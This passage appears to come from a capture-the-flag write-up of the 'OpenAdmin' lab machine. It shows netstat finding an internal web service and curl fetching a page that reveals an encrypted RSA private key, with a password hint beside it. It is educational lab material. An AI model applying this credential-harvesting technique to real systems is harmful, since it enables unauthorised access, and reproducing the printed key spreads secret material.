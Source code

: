 doing `netstat -tulv` shows port 52846 is listening. the -t & -u mean we are specifying tcp and upd, the -l shows us only addresses which are listening, and finally the -v stands for verbose so we get as much information about them as possible. 
```
jimmy@openadmin:~$ netstat -tulv
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN     
tcp        0      0 localhost:52846         0.0.0.0:*               LISTEN     
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN     
tcp6       0      0 [::]:http               [::]:*                  LISTEN     
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN     
udp        0      0 localhost:domain        0.0.0.0:*                          
jimmy@openadmin:~$ 
```

doing `curl 127.0.0.1:52846` gave me the login page (without the exposted credentials again)

however, if i do `curl 127.0.0.1:52846/main.php` we get Joanna's ssh key

```
jimmy@openadmin:~$ curl 127.0.0.1:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
jimmy@openadmin:~$ 
```
